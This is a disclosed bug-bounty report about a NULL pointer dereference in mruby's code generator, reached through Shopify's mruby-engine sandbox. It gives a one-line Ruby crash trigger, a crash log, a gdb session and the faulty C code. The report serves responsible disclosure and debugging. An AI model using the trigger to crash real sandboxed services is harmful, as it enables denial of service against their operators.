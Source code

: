 # NULL pointer dereference when parsing ternary operators

## Report Details
- **Report ID**: 181677
- **URL**: https://hackerone.com/reports/181677
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-11-11T23:43:11.785Z
- **Disclosed**: 2016-12-17T02:31:04.612Z

## Reporter
- **Username**: jpenalbae
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
There is a NULL pointer dereference when parsing ternary operators which will cause a crash. This could be used to cause a DoS.

Sample code causing the crash (file sample.rb is also attached):
```ruby
b = a () ? 1 : 0
```

Note that `a ()` should be treated as a method call which in this case is also undefined, but when adding a blank in between the `a` and `()` it causes a crash (Find full crash attached as crash.log):
```
$ bin/sandbox /tmp/sample.rb
bin/sandbox:20: [BUG] Segmentation fault at 0x00000000000000
ruby 2.3.1p112 (2016-04-26) [x86_64-linux-gnu]

-- Control frame information -----------------------------------------------
c:0003 p:---- s:0010 e:000009 CFUNC  :sandbox_eval
c:0002 p:0201 s:0005 E:000a48 EVAL   bin/sandbox:20 [FINISH]
c:0001 p:0000 s:0002 E:000380 (none) [FINISH]

-- Ruby level backtrace information ----------------------------------------
bin/sandbox:20:in `<main>'
bin/sandbox:20:in `sandbox_eval'

-- Machine register context ------------------------------------------------
 RIP: 0x00007f5de668c3df RBP: 0x00007f5de5237ef4 RSP: 0x00007ffdcbdda5e0
 RAX: 0x00007f5de5237e2c RBX: 0x00007f5de523f830 RCX: 0x0000000000000000
 RDX: 0x00007f5de66e710c RDI: 0x00007f5de5237f0c RSI: 0x0000000000000000
  R8: 0x0000000000000000  R9: 0x00007f5de52055d0 R10: 0x0000000000000001
 R11: 0x0000000000000001 R12: 0x00007f5de52055d0 R13: 0x0000000000000005
 R14: 0x0000000000000001 R15: 0x00007f5de5237f24 EFL: 0x0000000000010217

-- C level backtrace information -------------------------------------------
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f5dea978ea5]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f5dea9790dc]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f5dea853364]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f5dea904dbe]
/lib/x86_64-linux-gnu/libpthread.so.0 [0x7f5dea5d7ed0]
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(codegen+0x37f) [0x7f5de668c3df] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:1361
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(gen_values+0x52) [0x7f5de6692eb2] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:825
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(gen_call.isra.12+0x101) [0x7f5de66934c1] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:855
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(codegen+0x3722) [0x7f5de668f782] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:1533
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(codegen+0x30d8) [0x7f5de668f138] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:1637
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(codegen+0x2e9e) [0x7f5de668eefe] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:1233
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(scope_body.isra.17+0x3e) [0x7f5de6694b2e] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:718
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(codegen+0x2187) [0x7f5de668e1e7] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:1528
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_generate_code+0xda) [0x7f5de669663a] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:2890
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(me_mruby_engine_generate_code+0x7a) [0x7f5de665800a] ../../../../ext/mruby_engine/mruby_engine.c:226
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(ext_mruby_engine_eval+0x89) [0x7f5de665a619] ../../../../ext/mruby_engine/ext.c:193
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f5dea9667bb]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f5dea9746a3]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f5dea9756d3]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f5dea96a509]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f5dea96f342]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7f5dea85671d]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3(ruby_exec_node+0x1d) [0x7f5dea85811d]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3(ruby_run_node+0x1e) [0x7f5dea85a25e]
ruby [0x40089b]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0) [0x7f5de9883730]
ruby(_start+0x29) [0x4008c9]
```

If we run it under gdb:
```
$ gdb --args /usr/bin/ruby bin/sandbox /tmp/sample.rb
(gdb) r
Starting program: /usr/bin/ruby bin/sandbox /tmp/sample.rb
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff7ff5700 (LWP 26490)]

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff37f53df in codegen (s=s@entry=0x7ffff23a8830, tree=0x7ffff23a0f24, val=val@entry=1) at /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:1361
1361          node *e = tree->cdr->cdr->car;
(gdb) x/2i 0x00007ffff37f53df
=> 0x7ffff37f53df <codegen+895>:        mov    rax,QWORD PTR [rsi]
   0x7ffff37f53e2 <codegen+898>:        lea    rcx,[rax-0x33]
(gdb) i r rsi
rsi            0x0      0
(gdb) list *(0x00007ffff37f53df)
0x7ffff37f53df is in codegen (/home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:1361).
1356        break;
1357
1358      case NODE_IF:
1359        {
1360          int pos1, pos2;
1361          node *e = tree->cdr->cdr->car;
1362
1363          switch ((intptr_t)tree->car->car) {
1364          case NODE_TRUE:
1365          case NODE_INT:
(gdb) print tree
$2 = (node *) 0x7ffff23a0f24
(gdb) print tree->cdr
$3 = (struct mrb_ast_node *) 0x7ffff23a0f0c
(gdb) print tree->cdr->cdr
$4 = (struct mrb_ast_node *) 0x7ffff23a0e2c
(gdb) print tree->car
$5 = (struct mrb_ast_node *) 0x0
(gdb) print *tree
$6 = {
  car = 0x0,
  cdr = 0x7ffff23a0f0c,
  lineno = 1,
  filename_index = 0
}
(gdb)
```

Even if gdb points that the bug is at `mruby-engine/ext/mruby_engine/mruby/mrbgems/mruby-compiler/core/codegen.c:1361` it is not, the bug its at the next line `1363`. Below is the affected code:

```C
  case NODE_IF:
    {
      int pos1, pos2;
      node *e = tree->cdr->cdr->car;

      switch ((intptr_t)tree->car->car) {   /* <-- tree->car happens to be NULL  */
      case NODE_TRUE:
      case NODE_INT:
      case NODE_STR:
        codegen(s, tree->cdr->car, val);
        return;
      case NODE_FALSE:
      case NODE_NIL:
        codegen(s, e, val);
        return;
      }
      codegen(s, tree->car, VAL);
      pop();
```

As we can see from gdb and the code, the bug is at `switch ((intptr_t)tree->car->car)` as `tree->car` points to a NULL which causes the NULL pointer dereference when accessing it.


Tested under latest version:
```
$ date
Sat Nov 12 00:23:43 CET 2016
$ cd mruby-engine/
$ git rev-parse HEAD
5a5eac4f380b5169882e8a851f0c0abcc7e2f266
$ cd ext/mruby_engine/mruby
$ git rev-parse HEAD
6c299aae67e2e0f13a470b855298bc1efb43387a
```

## Attachments
- sample.rb
- crash.log
